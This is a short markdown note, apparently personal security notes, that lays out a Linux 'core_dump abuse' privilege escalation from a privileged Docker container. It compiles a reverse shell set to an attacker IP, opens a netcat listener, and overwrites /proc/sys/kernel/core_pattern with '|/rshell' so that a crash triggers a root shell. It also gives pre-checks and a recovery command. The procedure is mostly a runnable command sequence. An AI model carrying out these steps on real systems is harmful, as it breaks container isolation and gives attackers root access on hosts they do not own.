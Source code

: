 # Linux Core_dump abuse

- imapct
    - use root permission to excute command

-Breakout Privileged
    - all
    - (unsure)

- change reverse_shell for attacker ip address

- action
    
    (on host)
    - gcc rever_shell.c -o rshell
    - sudo cp rshell /rshell
    - docker run -it --privileged ubuntu:22.04 bash
    (another terminal)
    - doocker exec -it 123 bash
    - nc -lvp 4444
    (back to the origin terminal)
    - echo "|/rshell" > /proc/sys/kernel/core_pattern
    - sleep 100
    - _\ (ctrl + blackslash)
    
    - get shell with root permission

- check before Operation
    - ulimit -c (if appear 0 excute ulimit -c unlimited)
    - systemctl status apport

- recovery command
    - sudo sysctl --system